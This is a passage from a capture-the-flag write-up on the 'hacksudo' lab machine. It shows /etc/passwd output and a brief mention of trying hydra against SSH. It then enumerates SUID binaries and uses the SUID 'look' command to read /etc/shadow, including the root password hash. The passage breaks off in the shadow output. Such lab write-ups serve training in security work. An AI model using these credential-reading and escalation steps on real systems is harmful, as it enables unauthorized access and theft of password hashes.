 systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin
tftp:x:109:114:tftp daemon,,,:/srv/tftp:/usr/sbin/nologin
ftpuser:x:1002:1002::/dev/null:/etc
isro:x:1003:1003:,,,:/home/isro:/bin/bash
dnsmasq:x:111:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
{% endhighlight %}

So we have a main user `isro` so maybe we can use hydra with `dict.txt` to get into
that account over SSH. No such luck there. 

SUID bins:
{% highlight terminal %}
www-data@hacksudo:/etc$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/mount.nfs
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/look
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
{% endhighlight %}

`/usr/bin/look` jumps out at me. We can use look to read files on the system as the 
root user so lets read the `/etc/shadow` file:
{% highlight terminal %}
www-data@hacksudo:/etc$ LFILE=/etc/shadow
LFILE=/etc/shadow
www-data@hacksudo:/etc$ look '' "$LFILE"
look '' "$LFILE"
root:$6$zHA6yDSHPcoPX7dX$2oZJxM7gBzhQIT049d4MuR7jAypyZpDPoo6aKQfkJAfJNKF/CgY1GYFCu.Wb5cB6713Zjtzgk.ls0evZ6YToD/:18756:0:99999:7:::
daemon:*:18751:0:99999:7:::
bin:*:18751:0:99999:7:::
sys:*:18751:0:99999:7:::
sync:*:18751:0:99999:7:::
games:*:18751:0:99999:7:::
man:*:18751:0:99999:7:::
lp:*:18751:0:99999:7:::
mail:*:18751:0:99999:7:::
news:*:18751:0:99999:7:::
uucp:*:18751:0:99999:7:::
proxy:*:18751:0:99999:7:::
www-data:*:18751:0:99999:7:::
backup:*:18751:0:99999:7:::
list:*:18751:0:99999:7:::
irc:*:18751:0:99999:7:::
gnats:*:18751:0:99999:7:::
nobody:*:18751:0:99999:7:::
_apt:*:18751:0:99999:7:::
systemd-timesync:*:18751:0:99999:7:::
systemd-network:*:18751:0:99999:7:::
systemd-resolve:*:18751:0:99999:7:::